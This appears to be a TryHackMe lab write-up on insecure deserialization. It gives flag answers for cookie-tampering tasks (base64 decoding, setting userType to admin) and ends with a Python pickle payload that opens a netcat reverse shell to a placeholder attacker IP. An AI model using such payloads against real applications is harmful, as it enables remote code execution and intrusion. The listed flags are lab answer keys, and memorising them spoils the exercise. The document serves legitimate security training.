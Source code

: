 ### Insecure Deserialization

Insecure deserialization is replacing data processed by an application with malicious code;
allowing anything from DoS to RCE that the attacker can use to gain a foothold in a
pentesting scenario.

The malicious code leverages the legitimate serialization and deserialization process used
by web applications.

OWASP rank this vuln 8/10 because:

- Low exploitability. This vuln is often a case-by-case basis - there is no reliable 
tool/framework for it.

- The exploit is only as dangerous as the attacker's skill permits and the data that is
exposed

What's vulnerable?

- E-Commerce sites
- Forums
- APIs
- Application runtimes (Tomcat, Jenkins, Jboss, etc.)

### Cookies Practical

1st flag:

method: base64 decode sessionId cookie

answer: THM{good_old_base64_huh}

2nd flag:

method: change userType cookie value to admin

answer: THM{heres_the_admin_flag}

### Code Execution


When you visit the "Exchange your vim" URL, A cookie is encoded and stored within your
browser - perfect for us to modify! Once you visit the feedback form, the value of this 
cookie is decoded and then deserialised. Uh oh. In the snippet below, we can see how the 
cookie is retrieved and then deserialized via pickle.loads

This vulnerability exploits python Pickle, giving us free regin to execute whatever we like
such as a reverse shell

base64 encoded payload:
```
import pickle
import sys
import base64

command = 'rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | netcat YOUR_TRYHACKME_VPN_IP 4444 > /tmp/f'

class rce(object):
    def __reduce__(self):
        import os
        return (os.system,(command,))

print(base64.b64encode(pickle.dumps(rce())))
```
